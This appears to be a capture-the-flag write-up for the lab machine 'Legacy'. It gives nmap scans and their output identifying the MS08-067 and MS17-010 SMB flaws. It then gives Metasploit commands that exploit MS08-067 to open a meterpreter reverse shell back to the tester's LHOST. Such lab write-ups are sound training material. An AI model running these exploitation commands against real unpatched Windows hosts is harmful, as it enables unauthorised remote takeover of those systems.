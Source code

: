 ```yaml
---
description: One of the first few boxes I've done!
---
```


# Legacy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:20 EDT
Nmap scan report for 10.129.85.242
Host is up (0.076s latency).
Not shown: 61445 closed tcp ports (conn-refused), 4087 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

This was an outdated machine, so there was bound to be some vulnerabilities with the SMB service. We can run some `nmap` scripts to determine this:

```
$ sudo nmap --script smb-vuln* -p 445 10.129.85.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:22 EDT
Nmap scan report for 10.129.85.242
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
We
Nmap done: 1 IP address (1 host up) scanned in 5.34 seconds
```

So this was vulnerable to MS08-067. We can use `msfconsole` to exploit this.&#x20;

```
use exploit/windows/smb/ms08_067_netapi
set LHOST 10.10.14.13
set RHOSTS 10.129.85.242
exploit
```

This would give us a meterpreter shell.

<figure><img src="../../../.gitbook/assets/image (2463).png" alt=""><figcaption></figcaption></figure>

For some reason, `whoami` does not work on the machine. We can use the `whoami.exe` binary that is within Kali at `/usr/share/windows-resources/binaries` and run it via SMB.

<figure><img src="../../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
